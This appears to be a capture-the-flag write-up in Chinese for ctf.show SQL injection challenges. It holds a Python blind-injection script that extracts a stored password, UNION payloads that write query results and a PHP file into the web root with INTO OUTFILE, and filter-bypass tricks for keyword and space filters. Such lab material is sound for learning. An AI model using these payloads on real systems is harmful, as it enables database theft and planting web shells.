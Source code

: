 解法1：；盲注

```python
import requests
import string
flag = ''
table = string.digits + string.ascii_letters + '-{}'
for i in range(1, 45):
    for j in table:
        url = "http://f4b0bf5f-7277-4562-964d-cbe5e5737fb6.challenge.ctf.show/api/v4.php?id="
        payload = '''1' and substr((select password from ctfshow_user4 where username="flag"),{},1)="{}"--+'''.format(i,j)
        r = requests.get(url + payload)
        if "admin" in r.text:
            flag += j
            print(flag)
            break
```

解法二：将查询结果写进文件，或者写个木马进去

payload
```sql
# 将结果写到文件
-1'union select 1,password from ctfshow_user5 into outfile '/var/www/html/1.txt'%23
# 写马
-1'union select '1',"<?php phpinfo();?>" into outfile '/var/www/html/1.php'%23
```

## web 176

这题过滤了小写的‘select’，在sql中，关键字不区分大小写

payload

```sql
1'union SElect 1,2,password from ctfshow_user --+
```

## web 177

过滤了空格

常见绕过空格的方式

- `/**/`
- `%0a`
- `%0b`
- `%0c`
- `%0d`
- `%09`
- `(字段名)`

payload
```sql
1'union%09select%091,2,password%09from%09ctfshow_user%23
```
